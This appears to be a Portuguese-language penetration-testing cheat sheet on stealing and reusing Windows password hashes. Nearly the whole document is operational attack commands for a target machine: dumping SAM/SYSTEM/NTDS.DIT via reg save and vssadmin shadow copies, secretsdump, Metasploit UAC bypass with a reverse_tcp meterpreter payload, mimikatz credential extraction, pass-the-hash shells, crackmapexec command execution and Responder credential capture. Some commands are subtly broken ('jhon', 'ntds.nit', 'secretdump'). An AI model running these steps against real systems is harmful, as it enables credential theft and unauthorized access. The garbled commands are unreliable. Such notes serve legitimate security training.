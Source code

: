 # Windows Hashes

## Padrão de Hash do Windows

``<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:``  
LM Hash vazio: aad3b435b51404eeaad3b435b51404ee

## Obtendo hashes de senhas do Windows  
Nos sistemas Windows são utilizados até 3 arquivos para armazenamento e manipulação dos usuários e senhas dependendo da versão do sistema operacional. Os arquivos são:

**SAM - Security Account Manager** *(Windows XP/Vista/7/8/10)*  
- Armazena as contas de usuários
- %SystemRoot/system32/config/sam

**NTDS.DIT** *(Windows Server)*  
- Armazena os dados do AD incluindo as contas de usuários
- %SystemRoot/ntds/ntds.dit

**SYSTEM** *(Windows Server/XP/Vista/7/8/10)*  
- Arquivo necessário para decriptar o SAM/NTDS.DIT
- %SystemRoot/system32/config/system

Todos esses arquivos são bloqueados pelo sistema enquanto o mesmo estiver em execução, abaixo algumas técnicas para burlar essa proteção.

**Windows XP**  
Essa técnica funciona apenas em versões antigas do Windows. Verifique se existe o diretório *%SystemRoot%/Windows/repair* onde existe uma cópia do sistema operacional e faça a busca pelos arquivos **sam** e **system**.

A desvantagem de utilizar os arquivos da pasta *repair* é que pode ocorrer do arquivo sam estar desatualizado, não retornando todos os usuários atuais do sistema.

**Windows XP/Vista/7/8/10**  
Para baixar os arquivos **sam** e **system** através do registro do Windows, utilize os *comandos abaixo direto no terminal da máquina alvo:

``reg save hklm\sam samOK``  
``reg save hklm\system systemOK``

Esse método consegue retornar o arquivo sam com todos os usuários atuais do sistema.

**Necessário permissões para executar comandos como administrador*

**Windows Server/7/8/10**  
Em versões mais modernas do Windows assim como em versões do Windows Server, podemos utilizar a ferramenta ``vssadmin`` para criar uma cópia (shadow) do sistema operacional e fazer o download dos arquivos **sam**, **ntds.dit** e **system**.

Verificar os volumes do sistema operacional  
``vssadmin list volumes``

Montar uma cópia do volume alvo  
``vssadmin create shadow /for=c:``

Copiar os arquivos da cópia para o disco local  
``copy \\?\VOLUME_COPIA\windows\ntds\ntds.nit C:\ntds.nit``  
``copy \\?\VOLUME_COPIA\windows\system32\config\sam C:\sam``  
``copy \\?\VOLUME_COPIA\windows\system32\config\system C:\system``

## Obtendo hashes de senhas na rede  
Outra forma de descobrir os usuários e seus hashes é através da rede, mas nesse método é necessário já ter uma credencial válida do alvo.  

``impacket-secretdump user:pass@host``  

## Bypass UAC (Executar como Administrador)  

**Enviar solicitação ao usuário - Meterpreter**  
Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/ask** e com o comando ``set SESSION 1`` defina que o módulo será executado na sessão que está em background.

Execute o módulo com o comando ``run``, dessa forma será enviada uma mensagem para a máquina alvo solicitando a execução como administrador.

**Nova sessão como administrador - Meterpreter**  
Nessa técnica vamos utilizar dois módulos, o primeiro é um exploit que irá realizar o bypass no UAC e o segundo é o payload que será executado para nos retornar outra shell, mas dessa vez como administrador.

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/bypassuac_fodhelper**. Faça a configuração do target de acordo com o alvo e selecione a sessão que está em background com o comando ``set SESSION 1``.

Agora definimos o payload com ``set payload windows/x64/meterpreter/reverse_tcp`` e faça a configuração padrão.

Execute o comando ``exploit`` e aguarde o inicio de uma nova sessão com os privilégios de administrador.

## Visualizar Hashes  
Para visualizar os hashes que estão nos arquivos sam e ntds.dit utilize uma das opções:

**Windows 2k/NT/XP/Vista**  
``samdump2 SYSTEM SAM``

**Windows 2k/NT/XP/Vista/7/8/10/Server**  
``impacket-secretdump -sam SAM -system SYSTEM LOCAL``

**Windows Server**  
``impacket-secretdump -ntds ntds.dit -system SYSTEM LOCAL``

## Quebra de Hashes  
Para realizar a quebra dos hashes podemos utilizar a ferramenta john The Ripper.

**Quebra de Hash sem LM** *(aad3b435b51404eeaad3b435b51404ee)***:**  
``jhon --format=nt hash``

**Quebra de Hash com LM:**  
``jhon --format=lm hash``

## Obtendo hashes de senhas do Windows em cache  
Para recuperar hashes de senhas que estão armazenadas no cache ou na memória do Windows, utilize aguns dos utilitários abaixo:

**fgdump**  
*Download: /usr/share/windows-binaries/fgdump/fgdump.exe (Kali)*  
Executar na máquina alvo, irá retornar dois arquivos com os hashes das senhas locais e do AD.

**WCE Universal**  
*Download: /usr/share/windows-resources/wce/wce-universal.exe (Kali)*  
O utilitário wce-universal.exe possui diversas formas de ser executado, duas delas são a mais simples que é sem argumentos, `wce-universal.exe`, onde irá retornar os hashes armazenados no cache e a outra forma é com o argumento -w  `wce-universal.exe -w` que retorna a senha em texto claro.

**Meterpreter**  
Com a sessão iniciada no meterpreter, carregue o módulo mimikatz com `load mimikatz` e utilize uma das variações abaixo:  
  
- `wdigest`
- `mimikatz_command -f sekurlsa::wdigest -a full`
- `mimikatz_command -f sekurlsa::searchPasswords`
- `mimikatz_command -f sekurlsa::logonPasswords`

## Obtendo a shell do alvo  
Com a senha/hash em mãos, podemos tentar nos conetctar ao alvo com uma das opções:

**winexe**  
- `winexe -U user%pass //RHOST cmd.exe `

**pth (Aceita o HASH do usuário)**  
- `pth-winexe -U user%HASH //RHOST cmd.exe `

**psexec (Metasploit)** 
Selecione o módulo **exploit/windows/smb/psexec** e faça as configurações do RHOSTS, SMBUser, SMBPass e SMBDomain. Depois defina o payload da shell reversa **windows/x64/meterpreter/reverse_tcp** e faça a configuração do LHOST e LPORT.
Execute o comando ``exploit`` e aguarde a conexão ser realizada com sucesso.

## Conexão Remota GUI com o alvo  
Para conectar no alvo utilizando interface gráfica, utilize os comandos:
- `xfreerdp /u:USER /p:PASS /v:RHOST`

## crackmapexec (Swiss Army Knife)  
Com esse utilitário é possível executar diversas tarefas como escaneamento da rede, conexão remota, enumeração de usuários e muito mais, alguns exemplos de como utilizar:

**Visualizar módulos de SMB no crackmapexec**
- `crackmapexec smb -L`  

**Enumeração de hosts com SMB na rede**  
- `crackmapexec smb 192.168.0.0/24`  

**Execução de comando em host com SMB na rede**  
- `crackmapexec smb RHOST -u USER -p 'PASS' -x 'whoami'`  

## Responder  
Responder é uma ferramenta muito poderosa para capturar credenciais em uma rede com dispositivos Windows. O responder se aproveita dos protocolos LLMNR e NBT-NS que fazem a identificação de um host na rede para enviar uma confirmação falsa ao solicitande, recebendo dessa forma as credenciais do usuário.

**Utilizar proxy na rede**
`responder -I eth0 -Prv`
